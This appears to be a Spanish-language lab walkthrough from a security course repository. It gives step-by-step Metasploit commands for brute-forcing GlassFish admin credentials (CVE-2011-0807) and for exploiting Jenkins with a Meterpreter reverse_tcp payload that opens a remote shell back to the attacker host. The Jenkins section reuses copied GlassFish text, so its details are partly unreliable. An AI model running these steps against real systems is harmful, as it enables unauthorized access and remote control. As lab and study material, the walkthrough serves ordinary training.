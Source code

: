 # Vulnerabilidades Windows

## CVE-2011-0807 GlassFish


1. Primero vemos que puertos tiene la maquina victima con nmap

   ```bash
   nmap 169.254.217.145
   
2. Ahora iniciaremos la herramienta  msfconsole que es el Framework mas famoso

   ```bash
   msfconsole
   
3. Buscamos las herramientas que tiene que ver con Glassfish
   ```bash
   search glassfish

4. Yo usare la 1 
   ```bash
   use 1

5. Vemos que opciones hay que rellenar 
   ```bash
   show options
6. Seteamos los campos necesario
   ```bash
   set rhost 10.10.0.1
   set rport 4848
   set STOP_ON_SUCCES  true
   set user_file /home/kali/Desktop/user.txt
   set pass_file /home/kali/Desktop/passw.txt
7. Y ejecutamos el exploit
   ```bash
   exploit
8. Y como podemos ver el usuario es admin y la contraseña exploit
![exWind](https://github.com/ajaicac/Seguridad/blob/main/img/exWiN.PNG)


## Jenkins 8484 - HTTP


1. Primero vemos que puertos tiene la maquina victima con nmap

   ```bash
   nmap 169.254.217.145
   
2. Ahora iniciaremos la herramienta  msfconsole que es el Framework mas famoso

   ```bash
   msfconsole
   
3. Buscamos las herramientas que tiene que ver con Glassfish
   ```bash
   search jenkins

4. Yo usare la 11 
   ```bash
   use 11

5. Vemos que opciones hay que rellenar 
   ```bash
   show options
6. Seteamos los campos necesario
   ```bash
   set rhosts 169.254.217.145
   set rport 8484
   set targeturi /
   set srvhost 169.254.217.146
   set target 0ç
   set payload windows/meterpreter/reverse_tcp
7. Y ejecutamos el exploit
   ```bash
   exploit
8. Y como podemos ver el usuario es admin y la contraseña exploit
![exWind](https://github.com/ajaicac/Seguridad/blob/main/img/exJenkinsWiN.PNG)

